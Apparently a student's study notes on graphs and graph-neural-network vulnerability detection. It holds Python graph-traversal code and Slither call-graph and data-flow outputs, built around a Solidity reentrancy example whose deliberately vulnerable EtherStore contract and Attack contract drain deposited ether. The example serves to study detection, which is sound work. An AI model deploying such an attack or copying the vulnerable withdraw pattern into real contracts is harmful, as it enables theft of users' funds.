# 1. Graph and vulnerability detection systems based on Graphs

- [1. Graph and vulnerability detection systems based on Graphs](#1-graph-and-vulnerability-detection-systems-based-on-graphs)
	- [1.1. Day 1](#11-day-1)
		- [1.1.1. Introduction to Graphs](#111-introduction-to-graphs)
			- [1.1.1.1. Types of Graphs](#1111-types-of-graphs)
			- [1.1.1.2. Tree vs Graphs](#1112-tree-vs-graphs)
			- [1.1.1.3. Representation of Graphs](#1113-representation-of-graphs)
			- [1.1.1.4. Basic Operations on Graphs](#1114-basic-operations-on-graphs)
			- [1.1.1.5. Usage of Graphs](#1115-usage-of-graphs)
			- [1.1.1.6. Real-life Application of Graphs](#1116-real-life-application-of-graphs)
		- [1.1.2. Graph and its representations](#112-graph-and-its-representations)
			- [1.1.2.1. Implementation of Adjacency Matrix](#1121-implementation-of-adjacency-matrix)
			- [1.1.2.2. Implementation of Adjacency List](#1122-implementation-of-adjacency-list)
		- [1.1.3. BFS \& DFS in Graphs](#113-bfs--dfs-in-graphs)
			- [1.1.3.1. Breadth First Traversal for a Graph](#1131-breadth-first-traversal-for-a-graph)
			- [1.1.3.2. Depth First Traversal for a Graph](#1132-depth-first-traversal-for-a-graph)
	- [1.2. Day 2](#12-day-2)
		- [1.2.1. Call Graph - Solidity](#121-call-graph---solidity)
		- [1.2.2. Control Flow Graph - Solidity](#122-control-flow-graph---solidity)
		- [1.2.3. Data Flow Graph - Solidity](#123-data-flow-graph---solidity)
		- [1.2.4. Inheritance Graph](#124-inheritance-graph)
	- [1.3. Day 3 - Slither Tool](#13-day-3---slither-tool)
	- [1.4. Day 4 - A Gentle Introduction to Graph Neural Networks](#14-day-4---a-gentle-introduction-to-graph-neural-networks)
	- [1.5. Day 5 - Tutorial Representation Learning on Networks](#15-day-5---tutorial-representation-learning-on-networks)
		- [1.5.1. Node embeddings](#151-node-embeddings)
		- [1.5.2. Graph neural networks](#152-graph-neural-networks)
	- [1.6. Day 6 - Graph neural networks: A review of methods and applications](#16-day-6---graph-neural-networks-a-review-of-methods-and-applications)
		- [1.6.1. General design pipeline of GNNs](#161-general-design-pipeline-of-gnns)
			- [1.6.1.1. Find graph structure](#1611-find-graph-structure)
			- [1.6.1.2. Specify graph type and scale](#1612-specify-graph-type-and-scale)
			- [1.6.1.3. Design loss function](#1613-design-loss-function)
			- [1.6.1.4. Build model using computational modules](#1614-build-model-using-computational-modules)
		- [1.6.2. Variants considering graph type and scale](#162-variants-considering-graph-type-and-scale)
		- [1.6.3. Variants for different training settings](#163-variants-for-different-training-settings)
		- [1.6.4. A design example of GNN](#164-a-design-example-of-gnn)
			- [1.6.4.1. GPT-GNN: Generative Pre-Training of Graph Neural Networks](#1641-gpt-gnn-generative-pre-training-of-graph-neural-networks)
		- [1.6.5. Analyses of GNN](#165-analyses-of-gnn)
	- [1.7. Day 7 - Introduction by Example - Pytorch Geometric](#17-day-7---introduction-by-example---pytorch-geometric)
	- [1.8. Creating Message Passing Networks](#18-creating-message-passing-networks)
	- [1.9. Creating Your Own Datasets](#19-creating-your-own-datasets)
	- [1.10. Heterogeneous Graph Learning](#110-heterogeneous-graph-learning)
	- [1.11. Loading Graphs from CSV](#111-loading-graphs-from-csv)
	- [1.12. GNN Explainability](#112-gnn-explainability)
	- [1.13. Compiled Graph Neural Networks](#113-compiled-graph-neural-networks)
	- [1.14. Build Hetero Graph with Call-Graph and CFG from Solidity Source Code](#114-build-hetero-graph-with-call-graph-and-cfg-from-solidity-source-code)
		- [Hetero Call Graph](#hetero-call-graph)
		- [Hetero CFG](#hetero-cfg)
	- [1.15. Computational Graph in PyTorch](#115-computational-graph-in-pytorch)
	- [1.16. GCN](#116-gcn)
	- [1.17. Introduction: Hands-on Graph Neural Networks](#117-introduction-hands-on-graph-neural-networks)
	- [1.18. Node Classification with Graph Neural Networks](#118-node-classification-with-graph-neural-networks)
	- [1.19. Graph Classification with Graph Neural Networks](#119-graph-classification-with-graph-neural-networks)
	- [1.20. Scaling Graph Neural Networks](#120-scaling-graph-neural-networks)
	- [1.21. Point Cloud Classification with Graph Neural Networks](#121-point-cloud-classification-with-graph-neural-networks)
	- [1.22. Explaining GNN Model Predictions using  Captum](#122-explaining-gnn-model-predictions-using--captum)
	- [1.23. Customizing Aggregations within Message Passing](#123-customizing-aggregations-within-message-passing)
	- [1.24. Node Classification Instrumented with  Weights\&Biases](#124-node-classification-instrumented-with--weightsbiases)
	- [1.25. Graph Classification Instrumented with  Weights\&Biases](#125-graph-classification-instrumented-with--weightsbiases)
	- [1.26. Link Prediction on MovieLens](#126-link-prediction-on-movielens)
	- [1.27. Link Regression on MovieLens](#127-link-regression-on-movielens)
	- [1.28. Graph Attention Networks (GATs)](#128-graph-attention-networks-gats)
	- [1.29. Spectral Graph Convolutional Layers](#129-spectral-graph-convolutional-layers)
	- [1.30. Aggregation Functions in GNNs](#130-aggregation-functions-in-gnns)
	- [1.31. Recurrent Graph Neural Networks](#131-recurrent-graph-neural-networks)
	- [1.32. DeepWalk and Node2Vec](#132-deepwalk-and-node2vec)
	- [1.33. Data handling in PyG](#133-data-handling-in-pyg)
	- [1.34. MetaPath2vec](#134-metapath2vec)
	- [1.35. Graph pooling (DiffPool)](#135-graph-pooling-diffpool)
	- [1.36. Application](#136-application)
	- [1.37. Library](#137-library)
		- [1.37.1. pytorch\_geometric.nn](#1371-pytorch_geometricnn)


## 1.1. Day 1


### 1.1.1. Introduction to Graphs 
- https://www.geeksforgeeks.org/introduction-to-graphs-data-structure-and-algorithm-tutorials/


#### 1.1.1.1. Types of Graphs
- Null Graph
- Trivial Graph
- Undirected Graph 
- Directed Graph
- Connected Graph 
- Disconnected Graph
- Regular Graph 
- Complete Graph
- Cycle Graph
- Cyclic Graph 
- Directed Acyclic Graph
- Bipartite Graph
- Weighted Graph


#### 1.1.1.2. Tree vs Graphs


#### 1.1.1.3. Representation of Graphs

- Adjacency Matrix


- Adjacency List


#### 1.1.1.4. Basic Operations on Graphs 

- Insertion of Nodes/Edges in the graph – Insert a node into the graph.
- Deletion of Nodes/Edges in the graph – Delete a node from the graph.
- Searching on Graphs – Search an entity in the graph.
- Traversal of Graphs – Traversing all the nodes in the graph.

#### 1.1.1.5. Usage of Graphs

#### 1.1.1.6. Real-life Application of Graphs


### 1.1.2. Graph and its representations 
- https://www.geeksforgeeks.org/graph-and-its-representations/


#### 1.1.2.1. Implementation of Adjacency Matrix

```python

if __name__ == '__main__':
     
    #  n is the number of vertices
    #  m is the number of edges
    n, m = map(int, input().split())
    adjMat = [[0 for i in range(n)]for j in range(n)]
    for i in range(n):
        u, v = map(int, input().split())
        adjMat[u][v] = 1
        adjMat[v][u] = 1
        # for a directed graph with an edge
        # pointing from u to v,we just assign
        # adjMat[u][v] as 1
```

#### 1.1.2.2. Implementation of Adjacency List
```python
"""
A Python program to demonstrate the adjacency
list representation of the graph
"""


# A class to represent the adjacency list of the node
class AdjNode:
	def __init__(self, data):
		self.vertex = data
		self.next = None


# A class to represent a graph. A graph
# is the list of the adjacency lists.
# Size of the array will be the no. of the
# vertices "V"
class Graph:
	def __init__(self, vertices):
		self.V = vertices
		self.graph = [None] * self.V

	# Function to add an edge in an undirected graph
	def add_edge(self, src, dest):
		# Adding the node to the source node
		node = AdjNode(dest)
		node.next = self.graph[src]
		self.graph[src] = node

		# Adding the source node to the destination as
		# it is the undirected graph
		node = AdjNode(src)
		node.next = self.graph[dest]
		self.graph[dest] = node

	# Function to print the graph
	def print_graph(self):
		for i in range(self.V):
			print("Adjacency list of vertex {}\n head".format(i), end="")
			temp = self.graph[i]
			while temp:
				print(" -> {}".format(temp.vertex), end="")
				temp = temp.next
			print(" \n")


# Driver program to the above graph class
if __name__ == "__main__":
	V = 5
	graph = Graph(V)
	graph.add_edge(0, 1)
	graph.add_edge(0, 4)
	graph.add_edge(1, 2)
	graph.add_edge(1, 3)
	graph.add_edge(1, 4)
	graph.add_edge(2, 3)
	graph.add_edge(3, 4)

	graph.print_graph()

# This code is contributed by Kanav Malhotra

```
### 1.1.3. BFS & DFS in Graphs
- https://www.geeksforgeeks.org/breadth-first-search-or-bfs-for-a-graph/
- https://www.geeksforgeeks.org/depth-first-search-or-dfs-for-a-graph/
#### 1.1.3.1. Breadth First Traversal for a Graph
- Algorithm of Breadth-First Search
  - Step 1: Consider the graph you want to navigate.
  - Step 2: Select any vertex in your graph (say v1), from which you want to traverse the graph.
  - Step 3: Utilize the following two data structures for traversing the graph.
    - Visited array(size of the graph)
    - Queue data structure
  - Step 4: Add the starting vertex to the visited array, and afterward, you add v1’s adjacent vertices to the queue data structure.
  - Step 5: Now using the FIFO concept, remove the first element from the queue, put it into the visited array, and then add the adjacent vertices of the removed element to the queue.
  - Step 6: Repeat step 5 until the queue is not empty and no vertex is left to be visited.

- Implementation of BFS traversal on Graph
```python
# Python3 Program to print BFS traversal
# from a given source vertex. BFS(int s)
# traverses vertices reachable from s.

from collections import defaultdict


# This class represents a directed graph
# using adjacency list representation
class Graph:

	# Constructor
	def __init__(self):

		# Default dictionary to store graph
		self.graph = defaultdict(list)

	# Function to add an edge to graph
	def addEdge(self, u, v):
		self.graph[u].append(v)

	# Function to print a BFS of graph
	def BFS(self, s):

		# Mark all the vertices as not visited
		visited = [False] * (max(self.graph) + 1)

		# Create a queue for BFS
		queue = []

		# Mark the source node as
		# visited and enqueue it
		queue.append(s)
		visited[s] = True

		while queue:

			# Dequeue a vertex from
			# queue and print it
			s = queue.pop(0)
			print(s, end=" ")

			# Get all adjacent vertices of the
			# dequeued vertex s. If a adjacent
			# has not been visited, then mark it
			# visited and enqueue it
			for i in self.graph[s]:
				if visited[i] == False:
					queue.append(i)
					visited[i] = True


# Driver code
if __name__ == '__main__':

	# Create a graph given in
	# the above diagram
	g = Graph()
	g.addEdge(0, 1)
	g.addEdge(0, 2)
	g.addEdge(1, 2)
	g.addEdge(2, 0)
	g.addEdge(2, 3)
	g.addEdge(3, 3)

	print("Following is Breadth First Traversal"
		" (starting from vertex 2)")
	g.BFS(2)

# This code is contributed by Neelam Yadav

```

#### 1.1.3.2. Depth First Traversal for a Graph
- Implement DFS

```python
'''Python3 program to print DFS traversal for complete graph'''
from collections import defaultdict

# this class represents a directed graph using adjacency list representation


class Graph:
	# Constructor
	def __init__(self):
		# default dictionary to store graph
		self.graph = defaultdict(list)

	# Function to add an edge to graph
	def addEdge(self, u, v):
		self.graph[u].append(v)
	# A function used by DFS

	def DFSUtil(self, v, visited):
		# Mark the current node as visited and print it
		visited.add(v)
		print(v, end=" ")

	# recur for all the vertices adjacent to this vertex
		for neighbour in self.graph[v]:
			if neighbour not in visited:
				self.DFSUtil(neighbour, visited)
	# The function to do DFS traversal. It uses recursive DFSUtil

	def DFS(self):
		# create a set to store all visited vertices
		visited = set()
	# call the recursive helper function to print DFS traversal starting from all
	# vertices one by one
		for vertex in self.graph:
			if vertex not in visited:
				self.DFSUtil(vertex, visited)
# Driver's code
# create a graph given in the above diagram


if __name__ == "__main__":
	print("Following is Depth First Traversal \n")
	g = Graph()
	g.addEdge(0, 1)
	g.addEdge(0, 2)
	g.addEdge(1, 2)
	g.addEdge(2, 0)
	g.addEdge(2, 3)
	g.addEdge(3, 3)

	# Function call
	g.DFS()

# This code is contributed by Priyank Namdeo

```
## 1.2. Day 2

- Example contract (Reentrancy)

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

/*
EtherStore is a contract where you can deposit and withdraw ETH.
This contract is vulnerable to re-entrancy attack.
Let's see why.

1. Deploy EtherStore
2. Deposit 1 Ether each from Account 1 (Alice) and Account 2 (Bob) into EtherStore
3. Deploy Attack with address of EtherStore
4. Call Attack.attack sending 1 ether (using Account 3 (Eve)).
   You will get 3 Ethers back (2 Ether stolen from Alice and Bob,
   plus 1 Ether sent from this contract).

What happened?
Attack was able to call EtherStore.withdraw multiple times before
EtherStore.withdraw finished executing.

Here is how the functions were called
- Attack.attack
- EtherStore.deposit
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack.fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
*/

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

```
- Description:
  - Two contract:
    - EtherStore
    - Attack
  - Function in Contract
    - EtherStore
      - withdraw()
    - Attack
      - attack() 
  - Vulnerability
    - Reentrancy
  - Contract version: 0.8.17

### 1.2.1. Call Graph - Solidity
- Example 


:pushpin: Example reentrancy

- contract EtherStore



- Contract Attack



- Combine (EtherStore and Attack)



:pushpin: .dot file

```
strict digraph {
subgraph cluster_69_EtherStore {
label = "EtherStore"
"69_getBalance" [label="getBalance"]
"69_withdraw" [label="withdraw"]
"69_deposit" [label="deposit"]
}subgraph cluster_solidity {
label = "[Solidity]"
"require(bool)" 
"require(bool,string)" 
"balance(address)" 
"69_withdraw" -> "require(bool)"
"69_getBalance" -> "balance(address)"
"69_withdraw" -> "require(bool,string)"
}
}
```

```
strict digraph {
subgraph cluster_138_Attack {
label = "Attack"
"138_attack" [label="attack"]
"138_constructor" [label="constructor"]
"138_fallback" [label="fallback"]
"138_getBalance" [label="getBalance"]
}subgraph cluster_solidity {
label = "[Solidity]"
"require(bool)" 
"balance(address)" 
"138_attack" -> "require(bool)"
"138_fallback" -> "balance(address)"
"138_getBalance" -> "balance(address)"
}
}
```

```
strict digraph {
subgraph cluster_138_Attack {
label = "Attack"
"138_attack" [label="attack"]
"138_constructor" [label="constructor"]
"138_fallback" [label="fallback"]
"138_getBalance" [label="getBalance"]
}subgraph cluster_69_EtherStore {
label = "EtherStore"
"69_getBalance" [label="getBalance"]
"69_withdraw" [label="withdraw"]
"69_deposit" [label="deposit"]
}subgraph cluster_solidity {
label = "[Solidity]"
"require(bool)" 
"require(bool,string)" 
"balance(address)" 
"69_withdraw" -> "require(bool)"
"138_getBalance" -> "balance(address)"
"69_getBalance" -> "balance(address)"
"69_withdraw" -> "require(bool,string)"
"138_attack" -> "require(bool)"
"138_fallback" -> "balance(address)"
}"138_attack" -> "69_withdraw"
"138_attack" -> "69_deposit"
"138_fallback" -> "69_withdraw"
}
```


### 1.2.2. Control Flow Graph - Solidity















:pushpin: .dot file

### 1.2.3. Data Flow Graph - Solidity

```
INFO:Printers:
Contract EtherStore
+----------+---------------------------+
| Variable |        Dependencies       |
+----------+---------------------------+
| balances | ['balances', 'msg.value'] |
+----------+---------------------------+

Function deposit()
+---------------------+---------------------------+
|       Variable      |        Dependencies       |
+---------------------+---------------------------+
| EtherStore.balances | ['balances', 'msg.value'] |
+---------------------+---------------------------+
Function withdraw()
+---------------------+----------------------------------------------+
|       Variable      |                 Dependencies                 |
+---------------------+----------------------------------------------+
|         bal         |                 ['balances']                 |
|         sent        | ['TUPLE_0', 'bal', 'balances', 'msg.sender'] |
| EtherStore.balances |                 ['balances']                 |
+---------------------+----------------------------------------------+
Function getBalance()
+---------------------+--------------+
|       Variable      | Dependencies |
+---------------------+--------------+
|                     |      []      |
| EtherStore.balances |      []      |
+---------------------+--------------+
INFO:Printers:
Contract EtherStore
+----------+---------------------------+
| Variable |        Dependencies       |
+----------+---------------------------+
| balances | ['balances', 'msg.value'] |
+----------+---------------------------+

Function deposit()
+---------------------+---------------------------+
|       Variable      |        Dependencies       |
+---------------------+---------------------------+
| EtherStore.balances | ['balances', 'msg.value'] |
+---------------------+---------------------------+
Function withdraw()
+---------------------+----------------------------------------------+
|       Variable      |                 Dependencies                 |
+---------------------+----------------------------------------------+
|         bal         |                 ['balances']                 |
|         sent        | ['TUPLE_0', 'bal', 'balances', 'msg.sender'] |
| EtherStore.balances |                 ['balances']                 |
+---------------------+----------------------------------------------+
Function getBalance()
+---------------------+--------------+
|       Variable      | Dependencies |
+---------------------+--------------+
|                     |      []      |
| EtherStore.balances |      []      |
+---------------------+--------------+
Contract Attack
+------------+--------------------------------------+
|  Variable  |             Dependencies             |
+------------+--------------------------------------+
